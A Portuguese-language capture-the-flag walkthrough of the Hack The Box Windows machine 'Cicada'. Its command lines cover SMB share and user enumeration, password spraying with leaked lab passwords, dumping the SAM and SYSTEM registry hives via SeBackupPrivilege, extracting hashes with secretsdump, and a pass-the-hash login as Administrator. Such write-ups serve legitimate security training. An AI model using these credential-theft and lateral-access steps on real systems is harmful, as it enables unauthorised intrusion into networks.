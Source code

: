 #Difficult : Easy #OS : Windows
***
## Inicial Enumeration
Principalmente em máquinas `Windows` a enumeração costuma ser a parte mais importante de um ataque.
#### Port Scan
Começamos escaneando as portas para mapear nossa superfície de ataque.
```sh
nmap 10.10.11.35 -Pn -sC -sV -A -oN scan_tcp
```
![[Pasted image 20250520091209.png]]

Podemos adiciona-lo ao b=nosso arquivo de hosts.
```sh
echo "10.10.11.35\tCICADA-DC.cicada.htb cicada.htb" >> /etc/hosts
```
#### SSL certificate
```sh
openssl s_client -connect 10.10.11.35:3269 | openssl x509 -noout -text
```
![[Pasted image 20250520091512.png]]
#### SMB shares
Como não temos nenhum usuário ainda, podemos tentar enumerar pelo login anônimo
```sh
netexec smb cicada.htb -u 'guest'  -p '' --shares
```
![[Pasted image 20250520091831.png]]
Temos acesso a um compartilhamento não padrão.
#### Users listing
Podemos tentar listar os usuários do domínio.
```sh
impacket-lookupsid cicada.htb/'guest'@cicada.htb -no-pass | grep TypeUser
```
![[Pasted image 20250520101017.png]]

Não sou muito bom usando o `sed`, então copiei para um arquivo `users.list`, e formatei com o `neovim`. E ficou dessa maneira.
```regex
:%s/.*\\\([a-z]\{}\(\.\|-\)\?[a-z]\{}$\?\).*/\1/g
```
![[Pasted image 20250520101510.png]]
***
## User
Podemos partir para o `SMB` já que temos acesso ao `HR` como o usuário `guest`. Há um arquivo de texto, podemos baixa-lo para examinar melhor.
```sh
smbclient //10.10.11.35/HR -U 'guest'%''

ls
get "Notice from HR.txt"
```
![[Pasted image 20250520101815.png]]

Há uma senha no arquivo, podemos tentar com os usuários que achamos.
```sh
cat "Notice from HR.txt"
```
![[Pasted image 20250520101929.png]]

E temos um usuário que aceita essa senha. Tentei fazer login no sistema, mas ele não é aceito, mas tem acesso ao `SMB`.
```sh
netexec smb cicada.htb -u users.list  -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
![[Pasted image 20250520102213.png]]

Podemos então fazer uma enumeração de usuário via `SMB`. Parece que temos mais uma senha de usuário.
```sh
netexec smb cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```
![[Pasted image 20250520102541.png]]

Esse usuário também não faz login no sistema, mas te acesso a outro compartilhamento no `SMB`.
```sh
netexec smb cicada.htb -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --users
```
![[Pasted image 20250520103135.png]]

Podemos então acessa-lo, e verificar se há algo de interessante.
```sh
smbclient //10.10.11.35/DEV -U 'david.orelious'%'aRt$Lp#7t*VQ!3'

ls
get Backup_script.ps1
```
![[Pasted image 20250520103642.png]]
Temo um arquivo `Backup_script.ps1`, vamos baixa-lo e analisa-lo.

Eu utilizo o `batcat` por sua melhor aparência.
```sh
batcat Backup_script.ps1
```
![[Pasted image 20250520103842.png]]

Temos um usuário e uma senha, podemos tentar se esse usuário faz login no sistema.
```sh
netexec winrm cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```
![[Pasted image 20250520104052.png]]
E até que em fim um usuário que faz login no sistema.

Podemos fazer login e verificar se já conseguimos a  flag de usuário.
```sh
evil-winrm -i cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
ls ../Desktop
```
![[Pasted image 20250520104259.png]]
***
## Root
Podemos começar vendo os nossos privilégios.
```powershell
whoami /priv
```
![[Pasted image 20250520104623.png]]
A permissão `SeBackupPrivilege` nos da acesso a arquivos protegidos do sistema, pois foi projetada para facilitar o backup do sistema.

Podemos recuperar as hives `hklm/sam` e `hklm/system` para tentar obter alguma hash do sistema.
```powershell
reg save hklm\sam sam.hive
reg save hklm\system system.hive
```
![[Pasted image 20250520105216.png]]

Agora trazemos esses arquivo para nossa máquina.
```powershell
download system.hive
download sam.hive
```
![[Pasted image 20250520105836.png]]

Agora podemos extrair as hashes contidas no `sam.hive`.
```sh
impacket-secretsdump -sam sam.hive -system system.hive Local
```
![[Pasted image 20250520110004.png]]

Agora que conseguimos a hash da senha do `Administrator`, podemos logar e pegar a flag.
```sh
evil-winrm -i cicada.htb -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```
![[Pasted image 20250520110220.png]]
***
![[Pasted image 20250520105752.png]]